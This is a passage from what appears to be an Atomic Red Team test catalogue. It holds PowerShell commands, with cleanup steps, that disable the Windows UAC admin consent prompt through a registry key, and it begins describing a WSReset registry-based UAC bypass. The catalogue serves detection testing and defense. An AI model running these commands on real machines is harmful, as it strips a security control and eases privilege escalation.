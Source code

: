 <br/>
<br/>

## Atomic Test #22 - Disable UAC admin consent prompt via ConsentPromptBehaviorAdmin registry key
Disable User Account Conrol (UAC) for admin by setting the registry key 
HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System\ConsentPromptBehaviorAdmin to 0.

[MedusaLocker Ransomware](https://cloudsek.com/technical-analysis-of-medusalocker-ransomware/), 
[Purple Fox Rootkit](https://blogs.blackberry.com/en/2022/01/threat-thursday-purple-fox-rootkit), 
[Avaddon Ransomware](https://blogs.blackberry.com/en/2021/06/threat-thursday-avaddon-ransomware-uses-ddos-attacks-as-triple-threat)

**Supported Platforms:** Windows


**auto_generated_guid:** 251c5936-569f-42f4-9ac2-87a173b9e9b8






#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 


```powershell
$orgValue =(Get-ItemProperty HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System -Name ConsentPromptBehaviorAdmin).ConsentPromptBehaviorAdmin
Set-ItemProperty HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System -Name ConsentPromptBehaviorAdmin -Value 0 -Type Dword -Force
```

#### Cleanup Commands:
```powershell
Set-ItemProperty HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System -Name ConsentPromptBehaviorAdmin -Value $orgValue -Type Dword -Force
```





<br/>
<br/>

## Atomic Test #23 - UAC Bypass with WSReset Registry Modification
The following UAC bypass is focused on a registry key under "HKCU:\Software\Classes\AppX82a6gwre4fdg3bt635tn5ctqjf8msdd2\Shell\open\command" that will trigger a command once wsreset.exe runs. 
This bypass is limited to Windows 10 1803/1809 and may not run on Server platforms. The registry mod is where interest will be.
If successful, the command to run will spawn off wsreset.exe. 
[UAC Bypass in Windows 10 Store Binary](https://0x1.gitlab.io/exploit/UAC-Bypass-in-Windows-10-Store-Binary/)

**Supported Platforms:** Windows
